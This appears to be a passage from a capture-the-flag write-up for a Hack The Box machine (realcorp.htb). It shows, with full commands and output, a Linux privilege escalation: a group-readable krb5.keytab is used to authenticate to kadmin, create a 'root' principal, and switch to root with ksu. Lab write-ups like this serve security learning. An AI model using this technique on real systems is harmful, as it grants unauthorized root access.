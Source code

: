 Now I was finally admin I just needed to root. After some enumeration I found a file that wsa just readable by me. The krb5.keytab file in the /etc folder. 
I lookup what it is, and find that it basically works as a password to access other kerberos service. I list what all we can access using that file.

```
[admin@srv01 etc]$ ls -al | grep admin
-rw-r-----.  1 root admin    1403 Dec 19 06:10 krb5.keytab


[admin@srv01 etc]$ klist -kt krb5.keytab
Keytab name: FILE:krb5.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
```

I find that these are the services that I can use using this keytab file without supplying the password. I had to read about about a lot of other kerberos stuff to find how can I use this to my advantage. I find that we can create principles/services using the kadmin, we can use ksu to switch users using kerberos as authentication mechanism. 

The only problem was I wasn't sure about how to go further. And finally after a one last nudge I was able to see what I had to do. 

Basically we can create a principle named "root" using the kadmin and set a password for that principle. After that we can use ksu to switch to root using that principle.

```
[admin@srv01 etc]$ kadmin -p kadmin/admin -kt krb5.keytab
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin with keytab krb5.keytab.
kadmin:  addprinc root
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
kadmin:  quit

[admin@srv01 etc]$ ksu root -n root@REALCORP.HTB
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 ~]# whoami
root
[root@srv01 ~]# hostname
srv01.realcorp.htb
```
